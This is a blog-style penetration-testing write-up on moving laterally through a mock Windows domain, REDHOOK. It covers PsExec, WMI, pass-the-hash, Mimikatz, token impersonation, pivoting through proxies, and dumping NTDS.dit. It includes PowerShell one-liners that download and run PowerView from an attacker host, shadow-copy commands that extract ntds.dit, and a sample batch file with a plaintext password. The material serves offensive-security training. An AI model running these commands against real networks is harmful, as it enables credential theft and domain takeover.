


Windows Domains, Pivot & Profit
Hola! In this write-up we will be looking at different ways to move laterally when compromising a Windows domain. This post is by no means exhaustive but it should cover some of the more basic techniques and thought processes. To keep things in perspective we will be following a mock objective on my local domain REDHOOK. Hopefully this will be the first in a series of posts centred around Windows domains, if you have something specific you would like to see (such as Kerberos tickets) don't hesitate to drop me an email, enjoy!
Scenario:
Our mission is to get usable credentials for the "redhook.DA" domain account. We are starting from a position where the attacker is already on the corporate network but not yet in the same subnet as the targeted domain controller. You can see a diagram of the setup below.
Additionally we are going to assume the attacker has found a set of valid local Administrator credentials for Client 1. Typically, if the network is large enough, you will find valid credentials stored on a network share somewhere (batch, vbs, .NET, ps1, etc.), "dir /s", "findstr /SI" and Find-InterestingFile are your friends. Depending on how initial access was gained you may have a nice framework to work with like Cobalt Strike or you may be limited to natively available functionality on a corporate workstation. For this post the attacker is on a Kali box but I will explain some things you can do when you only have access to Windows. Lastly, in the post, we will not be dealing with SRP & AV evasion just keep that in the back of your mind because AV events = bad.
Resources:
+ Active Directory Security (@PyroTek3) - here
+ harmj0y (@harmj0y) - here
+ Exploit-Monday (@mattifestation) - here
+ PowerView - here
+ PowerSploit - here
+ Impacket - here
+ Impacket compiled by maaaaz - here
+ Mimikatz - here
+ Incognito - here
+ Windows Credentials Editor - here
+ Sysinternals Suite - here
Compromising Client 1
As I mentioned earlier, we "found" user credentials for "Client 1" on a network share. Something like this comes to mind.
# Mock contents of \\FileServer\Users\bob\Workstations\ErrorLog.bat
@echo off
net use "\\10.0.0.129\C$" /user:bob ImSoSecur3!
if exist "\\10.0.0.129\C$\Program Files\MSBuild\ErrorLog.txt" (
echo "Sigh, more errors on Client1! Copying.."
copy "\\10.0.0.129\C$\Program Files\MSBuild\ErrorLog.txt" C:\Users\bob\Logs\Client1\
del "\\10.0.0.129\C$\Program Files\MSBuild\ErrorLog.txt"
) else (
echo "Yaay, no new errors on Client1!"
)
net use "\\10.0.0.129\C$" /delete
We can quickly grab some NetBIOS information for the IP specified in the batch script.
You can do the same thing on Windows with "nbtstat -A IP". We can see that the machine name is WIN7-ENT-CLI1 and that it is connected to the REDHOOK domain.
PsExec:
With metasploit's PsExec we can easily get a shell on the box. Notice that bob is a local account, else the "net use" command would have specified "REDHOOK\bob". As such we are not using the SMBDomain parameter.
Metasploit doesn't have the only PsExec on offer. We can use Impacket's PsExec which emulates PsExec using RemComSvc. The nice thing here is that it will also accept hashes if we don't have clear-text credentials, we will come back to that later.
Finally, let's not forget Microsoft's own PsExec which has the added benefit of being a signed executable. Adding the "-s" flag to this command would give you a SYSTEM shell.
WMI:
There are also a few WMI options when it comes to running remote commands. Most notable WMIC, not only will it allow you to execute commands on a remote machine but you can also leverage WMI to get sensitive information and reconfigure the operating system, all using built-in tools.
Obviously you will need to be a bit creative with "cmd.exe /c" and "powershell.exe -exec bypass -command" to make command execution work to your advantage. The upside here is that almost any box you pop will have this built-in.
Again, coming back to Impacket we have WmiExec which will allow you to run commands and get the output, it can also give you a semi-interactive shell and accepts hashes.
Finally there is PowerSploit's Invoke-WmiCommand, this is a bit more labour intensive because of the PSCredential object but you can get the command output and in-memory residence for the script.
Pass-The-Hash, WCE & Mimikatz:
Sometime when you pop a box you will only have access to the NTLM hash for the user account, not the clear text password. If, in those cases, you have access to metasploit (psexec) or Impacket (pretty much all the tools support PTH) then you will have an easy time of it. If you are confined to the local Windows environment you can still inject the NTLM hash into a process using WCE or Mimikatz.
The downside here is that WCE is pretty much guaranteed to set off alarms! Mimikatz on the other hand can be loaded straight into memory using powershell w00t! In this case, however, I'm just using the compiled binary.
Notice that in both cases the domain is set to "." this is because bob is a local account but this will work perfectly fine for domain accounts as well.
We now have a lot of ways to get a shell on the box. This may seem a bit excessive but it is all about redundancy, some situations restrict what you can do other times a certain method will be overall more efficient for your intended goal. One thing you need to pay attention to is that the PsExec variants will all give you a SYSTEM shell while the WMI variants execute your commands as the user you authenticated to the box with. Again there are some cases where one or the other is desirable.
Smash-And-Grab
Having gained a foothold on the new subnet it's time for a classic smash and grab. We want to harvest whatever credentials we have access to (clear text and hashes) and figure out where we can go from there.
Metasploit (Mimikatz & hashdump):
Pretty straight forward from meterpreter. Use Mimikatz to get plain text credentials for users with an active session and hashdump to get hashes for local accounts that are not currently logged in.
Secretsdump & Invoke-Mimikatz:
To keep our alternatives open we can get the same results by using Impacket's SecretsDump and Powersploit's Invoke-Mimikatz. In this case Invoke-Mimikatz is hosted on the attackers webserver, I have truncated the Mimikatz output for brevity.

There are naturally other ways you can tackle this but I think these are probably the main techniques.
Reconnaissance
Ok, now we have access to a machine in the REDHOOK domain which is also connected to a different subnet it's time for some recon!
Impersonation:
As we want to query domain specific information we will need a shell as a domain user. This is a bit problematic because we currently have a shell as either bob (not a domain user) or SYSTEM. Fortunately using some undocumented NtQuerySystemInformation voodoo we can find tokens belonging to other user accounts and impersonate them, this is what the well know tool incognito is based on. Additionally, we know "REDHOOK\asenath.waite" is logged in to the machine so she will be a prime candidate.
Meterpreter has an incognito plug-in which makes this process very straight forward.

Alternatively you can use the actual incognito binary by Luke Jennings which has PsExec like functionality allowing you to use it remotely.
Finally, there is also PowerSploit's Invoke-TokenManipulation. Unfortunately, in it's current state I can't recommend using it because we can't really get the functionality we need out of it. I have filed two bug reports (#112 & #113), if these issue are resolved (specifically 113) then I will update this post because in my opinion using PowerShell to do token impersonation would be the best case scenario!
Domain Recon:
Now we have a shell as a domain user we need to do some quick enumeration to get a lay of the land and to figure out what our next target will be.
C:\Windows\System32> whoami redhook\asenath.waite C:\Windows\System32> hostname WIN7-Ent-CLI1 C:\Windows\System32> ipconfig Windows IP Configuration Ethernet adapter Local Area Connection 2: Connection-specific DNS Suffix . : localdomain Link-local IPv6 Address . . . . . : fe80::a1ba:a1ab:170c:7916%17 IPv4 Address. . . . . . . . . . . : 10.0.0.129 # Attacker's subnet Subnet Mask . . . . . . . . . . . : 255.255.255.0 Default Gateway . . . . . . . . . : Ethernet adapter Bluetooth Network Connection: Media State . . . . . . . . . . . : Media disconnected Connection-specific DNS Suffix . : Ethernet adapter Local Area Connection: Connection-specific DNS Suffix . : Link-local IPv6 Address . . . . . : fe80::5ddc:1e6:17e9:9e15%11 IPv4 Address. . . . . . . . . . . : 10.1.1.2 # REDHOOK subnet Subnet Mask . . . . . . . . . . . : 255.255.255.0 Default Gateway . . . . . . . . . : 10.1.1.1 Tunnel adapter isatap.{8D0466B5-1F88-480C-A42D-49A871635C9A}: Media State . . . . . . . . . . . : Media disconnected Connection-specific DNS Suffix . : Tunnel adapter isatap.localdomain: Media State . . . . . . . . . . . : Media disconnected Connection-specific DNS Suffix . : localdomain Tunnel adapter isatap.{5CBBE015-1E1C-4926-8025-EBB59E470186}: Media State . . . . . . . . . . . : Media disconnected Connection-specific DNS Suffix . : # A very small network, three hosts, including the one we have just compromised. C:\Windows\System32> net view Server Name Remark ------------------------------------------------------------------------------- \\REDRUM-DC red.dc \\WIN7-ENT-CLI1 \\WIN7-ENT-CLI2 The command completed successfully. # The DC the user is authenticated to C:\Windows\System32> echo %logonserver% \\REDRUM-DC C:\Windows\System32> ping -n 1 REDRUM-DC Pinging redrum-dc.redhook.local [10.1.1.200] with 32 bytes of data: Reply from 10.1.1.200: bytes=32 time<1ms TTL=128 Ping statistics for 10.1.1.200: Packets: Sent = 1, Received = 1, Lost = 0 (0% loss), Approximate round trip times in milli-seconds: Minimum = 0ms, Maximum = 0ms, Average = 0ms # List local users C:\Windows\System32> net user User accounts for \\WIN7-ENT-CLI1 ------------------------------------------------------------------------------- Administrator bob Guest TemplateAdmin The command completed successfully. # List REDHOOK domain users C:\Windows\System32> net user /domain The request will be processed at a domain controller for domain RedHook.local. User accounts for \\Redrum-DC.RedHook.local ------------------------------------------------------------------------------- Administrator asenath.waite Guest john.smith krbtgt redhook.DA robert.suydam wilbur.whateley The command completed successfully. # PowerSploit => Invoke-EnumerateLocalAdmin: Find all users who are local Administrators on a box in the network. C:\Windows\System32> powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadStrin g('http://10.0.0.128/PowerView.ps1');Invoke-EnumerateLocalAdmin" Server : Redrum-DC.RedHook.local AccountName : RedHook.local/Administrator # Be careful, Administrator is a domain user SID : S-1-5-21-129707511-1158432277-3818383092-500 in this case, not a local user! Disabled : False IsGroup : False IsDomain : True LastLogin : 28/01/2016 21:38:22 Server : Redrum-DC.RedHook.local AccountName : RedHook.local/Enterprise Admins SID : S-1-5-21-129707511-1158432277-3818383092-519 Disabled : False IsGroup : True IsDomain : True LastLogin : Server : Redrum-DC.RedHook.local AccountName : RedHook.local/Domain Admins SID : S-1-5-21-129707511-1158432277-3818383092-512 Disabled : False IsGroup : True IsDomain : True LastLogin : Server : WIN7-ENT-CLI1.RedHook.local AccountName : WIN7-Ent-CLI1/Administrator SID : S-1-5-21-280973330-564264495-219324212-500 Disabled : ERROR IsGroup : False IsDomain : False LastLogin : Server : WIN7-ENT-CLI1.RedHook.local AccountName : RedHook.local/Domain Admins SID : S-1-5-21-129707511-1158432277-3818383092-512 Disabled : False IsGroup : True IsDomain : True LastLogin : Server : WIN7-ENT-CLI1.RedHook.local AccountName : WIN7-Ent-CLI1/bob # The local user bob is an admin on Client 1, SID : S-1-5-21-280973330-564264495-219324212-1002 we knew this already. Disabled : ERROR IsGroup : False IsDomain : False LastLogin : Server : WIN7-ENT-CLI1.RedHook.local AccountName : WIN7-Ent-CLI1/TemplateAdmin # Mmm! SID : S-1-5-21-280973330-564264495-219324212-1003 Disabled : ERROR IsGroup : False IsDomain : False LastLogin : Server : WIN7-ENT-CLI2.RedHook.local AccountName : WIN7-ENT-CLI2/Administrator SID : S-1-5-21-1588183677-2924731702-2964281847-500 Disabled : ERROR IsGroup : False IsDomain : False LastLogin : Server : WIN7-ENT-CLI2.RedHook.local AccountName : RedHook.local/Domain Admins SID : S-1-5-21-129707511-1158432277-3818383092-512 Disabled : False IsGroup : True IsDomain : True LastLogin : Server : WIN7-ENT-CLI2.RedHook.local AccountName : WIN7-ENT-CLI2/TemplateAdmin # Mmm², very suspicious, the local user SID : S-1-5-21-1588183677-2924731702-2964281847-1004 TemplateAdmin is an admin on both "Client Disabled : ERROR 1" and "Client 2"! IsGroup : False IsDomain : False LastLogin : # PowerSploit => Get-NetSession: List active, remote, logon sessions on the DC. C:\Windows\System32> powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadStrin g('http://10.0.0.128/PowerView.ps1');Get-NetSession -ComputerName REDRUM-DC" sesi10_cname sesi10_username sesi10_time sesi10_idle_time ------------ --------------- ----------- ---------------- \\[fe80::18a3:b250:ed6a:28f0] REDRUM-DC$ 10 10 \\10.1.1.2 asenath.waite 0 0 # Same for "Client 2". Crucially, notice that the domain user REDHOOK\Administrator is authenticated to the box and that the connection is originating from the DC! C:\Windows\System32> powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadStrin g('http://10.0.0.128/PowerView.ps1');Get-NetSession -ComputerName WIN7-ENT-CLI2" sesi10_cname sesi10_username sesi10_time sesi10_idle_time ------------ --------------- ----------- ---------------- \\10.1.1.200 Administrator 1721 124 \\10.1.1.2 asenath.waite 0 0 # Let's get some more info about that account. Again, this is listing information about REDHOOK\Administrator not the local administrator. C:\Windows\System32> net user Administrator /domain The request will be processed at a domain controller for domain RedHook.local. User name Administrator Full Name Comment Built-in account for administering the computer/dom ain User's comment Country code 000 (System Default) Account active Yes Account expires Never Password last set 25/01/2016 21:15:11 Password expires Never Password changeable 26/01/2016 21:15:11 Password required Yes User may change password Yes Workstations allowed All Logon script User profile Home directory Last logon 28/01/2016 21:38:22 Logon hours allowed All Local Group Memberships *Administrators Global Group memberships *Domain Users *Domain Admins # Oops, he is a DA! The command completed successfully. # We also won't forget to retrieve some info about our fictional target REDHOOK\redhook.DA. C:\Windows\System32> net user redhook.DA /domain The request will be processed at a domain controller for domain RedHook.local. User name redhook.DA Full Name redhook DA Comment User's comment Country code 000 (System Default) Account active Yes Account expires Never Password last set 25/01/2016 21:27:37 Password expires Never Password changeable 26/01/2016 21:27:37 Password required Yes User may change password Yes Workstations allowed All Logon script User profile Home directory Last logon 28/01/2016 21:18:56 Logon hours allowed All Local Group Memberships Global Group memberships *Enterprise Admins *Domain Admins # Our target on the other hand is the *Group Policy Creator *Schema Admins mother root of DA's hehe! The command completed successfully.
Looking over the output of our brief search gives us a pretty likely path to becoming a domain administrator. (1) It appears that the local user TemplateAdmin is an admin on both "Client 1" and "Client 2". (2) Though we don't have clear-text credentials for TemplateAdmin we have his hash which we can use to access "Client 2". (3) The REDHOOK\Administrator account is authenticated to "Client 2", if we compromise that box while he is logged in we can get his clear text credentials and/or impersonate him. At that point we pretty much own the domain!
Before moving on, a surprise pop-quiz question: What is the most likely reason that "REDHOOK\Administrator" is part of the domain administrators group? I imagine this could be on the MCSA exam.
Socks Proxy:
One final thing I would like to highlight is metasploit's ability to route traffic through established sessions and then expose that access to the operating system through a sock proxy. This is very very useful if you have access to metasploit or something like cobalt strike.
By creating a route through "session 1" we have basically granted most metasploit modules the ability to be executed against hosts in the non-routable /24 subnet.
Additionally, starting a socks proxy exposes this access to our operating system by using proxychains. Make sure to edit the proxychains configuration file to use the appropriate port set by the metasploit module.
There is only one thing you need to remember in this case which is that the socks proxy will only accept TCP traffic. You will still be able to do most things but just be aware of this limitation.
It is not possible, using native functionality, to set up a socks proxy on a Windows machine. However, using netsh, we can create port forwarding rules, we will come back to that later. Also, if you want more, you can grab plink and do some magic with SSH tunnels but that is out of scope for this write-up.
Compromising Client 2
The shared local administrator account, between "Client 1" and "Client 2", TemplateAdmin is a pretty good indication that that they have the same credentials. As such, compromising "Client 2" is not that much different from the scenario above except that we have to pivot our shell and we need to use the account hash instead of the clear-text password. Below I'll show two ways to do this, but other options are certainly possible.
Metasploit (PortProxy & PsExec):
Even though we can reach "Client 2" through our custom route in metasploit we will have difficulties getting a connection back. To get around this we can use the portproxy module to create a port forwarding rule on "Client 1".
This may seem a bit confusing at first but it is really straight forward. "Client 1" is listening on 10.1.1.2:9988 and is sending any traffic that arrives on that port to 10.0.0.128:9988. In the background this is, in fact, wrapping round netsh in Windows. All that remains is to slightly reconfigure PsExec.

Impacket (PsExec) & netsh:
First we will need to manually set up a port forwarding rule, using netsh, on "Client 1".
We now have a rule set up which will forward traffic arriving on 10.0.0.129:5678 to 10.1.1.3:445. For this to work Impacket's PsExec will need to connect to a custom port, this is not supported out-of-the box but we can easily edit the python source.
With our modifications saved we can simply PsExec to 10.0.0.129 and our traffic should get forwarded to 10.1.1.3!
Don't forget to clean up the port forwarding rule when you are done. The following command will reset the port proxy configuration file.
C:\Windows\system32> netsh interface portproxy reset
Pure Windows?:
Unfortunately I could not find a way, if the attacker is on a Windows box, to make this work natively. The issue is that tools like Sysinternals PsExec won't query non default ports. Additionally, if the attacker's machine has port 445 open it will ignore any port forwarding rules which we configure (eg: 127.0.0.1:445 --> 10.0.0.129:5678). Temporarily disabling SMB is also not an option, it requires reconfiguring dependencies and rebooting the machine (Yikes!). If anyone knows any voodoo that will work, please leave a comment below!
In this situation your best option will be to modify and compile Impacket's PsExec using pyinstaller, similar to what maaaaz has done here.
Smash-And-Grab ²
This may or may not be similar to our first scenario, depending on how REDHOOK\Administrator has authenticated to "Client 2". For example, if a simple "net use \\10.1.1.3\C$" command was issued then we would not be able to get clear text credentials or a hash, however "net use \\10.1.1.3\C$ /user:REDHOOK\Administrator XXXXXXX" would gives us both. In essence, it depends if the REDHOOK\Administrator user actually typed in their credentials when authenticating.
Keep in mind that either way it will most likely be game over. Even if we can't get clear text credentials we will still be able to find a process running as REDHOOK\Administrator and impersonate it's token using incognito.
Metasploit Easy-Mode (Mimikatz & hashdump & incognito):
We were lucky in this case, or not so much as I've done it on purpose hehe! Let's briefly have a look at incognito though, just to cover our bases.
Impacket (PsExec) & incognito:
Again we have some limitations here because of the pivot. To illustrate the technique I'll show how we can use incognito on the remote host as it is a bit user unfriendly (unlike Invoke-Mimikatz).
After running the command our shell hangs (sigh..). I played around with this for quite a bit and I found that without the "-c" (interactive mode) parameter the shell does not hang but the command does not execute correctly also if you don't group your commands in a bat file then it will only execute the first one before hanging. Just to be clear, this issue only happen when executing incognito through PsExec.
Although it is quite an ugly solution, once we log back in to the machine we can see that our batch script ran correctly.
If anyone can figure out a more elegant way to execute the incognito command, definitely leave a comment!
File Transfers:
Obviously I have gone a bit easy on myself, using the "put" command in Impacket's PsExec. Generally a good approach would be to download any files you may need onto the pivot box, you can use PowerShell's WebClient or something like bitsadmin. For some ideas, have a look at Parvez post here. Once the files are in place you can simply create an unrestricted Windows share and mount that from the host behind the pivot. You can see some example syntax below.
# Create an unrestricted share. C:\Users\asenath.waite> md C:\Users\asenath.waite\Desktop\test C:\Users\asenath.waite> echo Hello > C:\Users\asenath.waite\Desktop\test\test.txt C:\Users\asenath.waite> net share SomeShare=C:\Users\asenath.waite\Desktop\test /grant:everyone,full SomeShare was shared successfully. C:\Users\asenath.waite> net share Share name Resource Remark ------------------------------------------------------------------------------- C$ C:\ Default share IPC$ Remote IPC ADMIN$ C:\Windows Remote Admin SomeShare C:\Users\asenath.waite\Desktop\test The command completed successfully. # On the remote host simple mount the share. C:\Users\belial> net use \\10.0.0.129\SomeShare The command completed successfully. C:\Users\belial> type \\10.0.0.129\SomeShare\test.txt Hello # Unmount. C:\Users\belial> net use \\10.0.0.129\SomeShare /delete \\10.0.0.129\SomeShare was deleted successfully. # Clean up the share. C:\Users\asenath.waite> net share C:\Users\asenath.waite\Desktop\test /delete /yes Users have open files on SomeShare. Continuing the operation will force the files closed. SomeShare was deleted successfully. C:\Users\asenath.waite> rd /S /Q C:\Users\asenath.waite\Desktop\test
Compromising Redrum-DC
At this point we have either found plain text credentials for REDHOOK\Administrator or created our own Doman Admin which means that compromising the DC will be exactly the same as the process we used for "Client 2". To save my fingers some typing I won't go over the entire scenario again, you can mix and match a number of technique which were shown previously. The two examples below are, again, doing something slightly different than the cases we saw earlier.
Socks Proxy & Impacket (WmiExec):
Remember that socks proxy we set up earlier? We can actually proxify almost everything we need to compromise the domain. The one caveat is that this obviously requires us to set up a socks proxy on the pivot. Here we are using Impacket's WmiExec just to switch things up a bit.
Simple right? Just don't rely on it to much in case it is not an option!
Sysinternals (PsExec) & Invoke-Mimikatz:
Time to complete our initial objective and get usable credentials for the REDHOOK\redhook.DA user account. This example is using Invoke-Mimikatz's ability to dump credentials on remote machines. Essentially, we get a shell on "Client 1" as REDHOOK\Administrator and then launch Mimikatz at the DC. We are assuming here that REDHOOK\redhook.DA has an active session on the box.

The reason that I'm only dumping hashes here is that, due to enhanced protection features on 2k12 R2/Windows 8.1+, we can't get clear text credentials for authenticated users. However, from the output we can see that we have managed to retrieve the REDHOOK\redhook.DA NTLM hash which will be more than enough to authenticate to other machines in the domain as that user.
Notice that we are just null padding the LM portion of the hash, it doesn't actually matter what we put there. We are certainly not restricted to Impacket here, Metasploit's PsExec will also work fine as will forging the NTLM hash of a command prompt using WCE or Mimikatz.
Pillaging NTDS
A lot of times extracting NTDS will be the final thing to do before rolling the Game Over credits. I highly recommend that you read Sean Metcalf post on doing this here which shows a number of different techniques both with local shell access to the DC as well as remotely using WMI. In this section I will briefly show two ways we can achieve this.
Volume Shadow Copy (Classic-Mode):
The most basic, living off the land, way to do this is to use vssadmin.
C:\> whoami redhook\redhook.da # Get the path to NTDS, it may not be in the C drive. C:\> reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters System Schema Version REG_DWORD 0x45 Root Domain REG_SZ DC=RedHook,DC=local Configuration NC REG_SZ CN=Configuration,DC=RedHook,DC=local Machine DN Name REG_SZ CN=NTDS Settings,CN=REDRUM-DC,CN=Servers,CN=There-Be-Dragons,CN=Sites,CN= Configuration,DC=RedHook,DC=local DsaOptions REG_SZ 1 IsClone REG_DWORD 0x0 ServiceDll REG_EXPAND_SZ %systemroot%\system32\ntdsa.dll DSA Working Directory REG_SZ C:\Windows\NTDS DSA Database file REG_SZ C:\Windows\NTDS\ntds.dit Database backup path REG_SZ C:\Windows\NTDS\dsadata.bak Database log files path REG_SZ C:\Windows\NTDS Hierarchy Table Recalculation interval (minutes) REG_DWORD 0x2d0 Database logging/recovery REG_SZ ON DS Drive Mappings REG_MULTI_SZ c:\=\\?\Volume{1c6c559b-3db6-11e5-80ba-806e6f6e6963}\ DSA Database Epoch REG_DWORD 0x7983 Strict Replication Consistency REG_DWORD 0x1 Schema Version REG_DWORD 0x45 ldapserverintegrity REG_DWORD 0x1 Global Catalog Promotion Complete REG_DWORD 0x1 DSA Previous Restore Count REG_DWORD 0x1 # Create a shadow copy of C. C:\> vssadmin create shadow /for=c: vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool (C) Copyright 2001-2013 Microsoft Corp. Successfully created shadow copy for 'c:\' Shadow Copy ID: {e0fd5b2d-b32d-4bba-89a2-efcf0b7b8fda} Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1 # Copy out ntds and the system hive. C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\ntds.dit 1 file(s) copied. C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\system.hive 1 file(s) copied.
After getting the files back to the attacker's machine (many ways to do this, pick one hehe). We can simply use Impacket's SecretsDump locally and extract the contents. The output below is truncated for brevity.
Keep in mind that NTDS can literally contain thousands of user accounts and can be very large. Also, don't go outside your remit(!), dumping NTDS is likely to make Admins go absolutely ballistic!
A very similar approach can be used with Invoke-NinjaCopy, you can see an example of this in Sean Metcalf's post.
Socks Proxy & Impacket (SecretsDump) (Easy-Mode):
Again, ridiculous as it seems, if we have a socks proxy set up on the pivot we can simply proxify SecretsDump and launch it against the DC using either plain text credentials or a hash!

Final Thoughts
The main goal of this post was to showcase a number of different techniques available to the attacker. The various examples given can be combined in different ways as required by the situation. Hopefully this has given the reader some ideas on how to move around and pillage your way to DA!